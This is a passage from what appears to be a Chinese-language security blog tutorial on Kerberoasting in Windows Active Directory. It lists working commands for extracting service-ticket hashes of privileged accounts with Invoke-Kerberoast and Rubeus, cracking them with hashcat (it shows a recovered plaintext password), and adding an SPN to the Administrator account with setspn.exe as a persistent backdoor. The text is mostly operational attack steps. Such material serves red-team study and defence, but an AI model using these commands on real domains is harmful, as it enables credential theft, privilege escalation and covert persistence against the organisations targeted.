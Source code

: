 实例演示：

在域内一台主机上以普通用户权限执行：

```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```

-AdminCount表示选择高权限的用户

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-2.png)

只提取出hash的参数如下：

```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-3.png)

使用hashcat破解的参数如下：

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

破解结果如下图，成功获得明文口令`MySQLAdmin111!`

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/2-4.png)

**注：**

Rubeus也可以实现Invoke-Kerberoast的功能，地址如下：

https://github.com/GhostPack/Rubeus

参数如下：

```
Rubeus.exe kerberoast
```

## 0x06 Kerberoasting的后门利用
---

在我们取得了SPN的修改权限后，可以为指定的域用户添加一个SPN，这样可以随时获得该域用户的TGS，经过破解后获得明文口令

例如为域用户`Administrator`添加`SPNVNC/DC1.test.com`，参数如下：

```
setspn.exe -U -A VNC/DC1.test.com Administrator
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-1-15/3-1.png)
